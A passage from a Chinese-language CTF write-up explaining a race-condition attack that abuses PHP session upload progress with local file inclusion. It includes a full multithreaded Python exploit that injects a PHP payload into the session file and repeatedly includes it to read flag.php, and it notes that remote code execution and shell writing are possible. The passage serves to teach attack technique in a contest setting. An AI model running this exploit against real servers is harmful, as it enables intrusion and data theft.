 我们写一个脚本，一个线程不断上传空文件（同时post伪造的恶意进度信息），另一些线程不停地访问session临时文件，总有几次我们会在服务端还没有删除进度信息时访问到session临时文件。

python脚本：
```
import requests
import threading

url='http://127.0.0.1/index.php'
r=requests.session()
headers={
    "Cookie":'PHPSESSID=123'
}
def POST():
    while True:
        file={
            "upload":('','')                                                    #上传无效的空文件
        }
        data={
            "PHP_SESSION_UPLOAD_PROGRESS":'<?php readfile("./flag.php");?>'     #恶意进度信息，readfile将直接输出文件内容
        }
        r.post(url,files=file,headers=headers,data=data)

def READ():
    while True:
        event.wait()
        t=r.get("http://127.0.0.1/index.php?file=../tmp/tmp/sess_123")
        if 'flag' not in t.text:
            print('[+]retry')
        else:
            print(t.text)
            event.clear()
event=threading.Event()
event.set()
threading.Thread(target=POST,args=()).start()
threading.Thread(target=READ,args=()).start()
threading.Thread(target=READ,args=()).start()
threading.Thread(target=READ,args=()).start()
```
RCE拿到flag内容：  
![](http://imgs.12end.xyz/essay/essay1/5.png)  
因为比赛是下发的docker容器，写shell意义不大，但是的确通过这个脚本读到了flag。  
这个方法依赖于php.ini的一些配置选项，以及session目录的信息，不过大多数情况下这些都是默认的，很容易可以猜到
还有更多利用方法，各位师傅们自由发挥。

### 全宇宙最简单的SQL
------------

![](https://www.zhaoj.in/wp-content/uploads/2019/04/155577386858fc1ffaddd7a23668307be4f8670af0-1024x570.png)

题目
